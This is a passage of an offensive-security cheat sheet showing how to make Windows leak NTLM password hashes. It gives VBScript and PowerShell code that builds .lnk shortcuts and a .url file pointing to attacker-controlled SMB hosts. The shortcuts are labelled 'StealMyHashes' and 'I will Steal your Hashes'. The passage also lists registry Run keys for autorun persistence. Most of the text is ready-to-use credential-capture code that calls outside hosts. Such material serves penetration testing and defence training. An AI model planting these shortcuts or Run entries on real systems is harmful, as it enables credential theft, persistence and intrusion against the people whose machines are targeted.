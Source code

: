 ```powershell
Set shl = CreateObject("WScript.Shell")
Set fso = CreateObject("Scripting.FileSystemObject")
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, "\StealMyHashes.lnk"))

sc.TargetPath = "\\35.164.153.224\@OsandaMalith"
sc.WindowStyle = 1
sc.HotKey = "Ctrl+Alt+O"
sc.IconLocation = "%windir%\system32\shell32.dll, 3"
sc.Description = "I will Steal your Hashes"
sc.Save
```

The Powershell version.

```powershell
#TargetPath attack
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("StealMyHashes.lnk")
$lnk.TargetPath = "\\35.164.153.224\@OsandaMalith"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "I will Steal your Hashes"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()

#IconLocation Attack
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc\software\test.lnk")
$shortcut.IconLocation = "\\10.10.10.10\test.ico"
$shortcut.Save()
```

## Internet Shortcuts (.url)

Another shortcut in Windows is the Internet shortcuts. You can save this as something.url

```bash
echo [InternetShortcut] > stealMyHashes.url 
echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url
```

## Autorun with Registry

You can add a new registry key in any of the following paths.

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
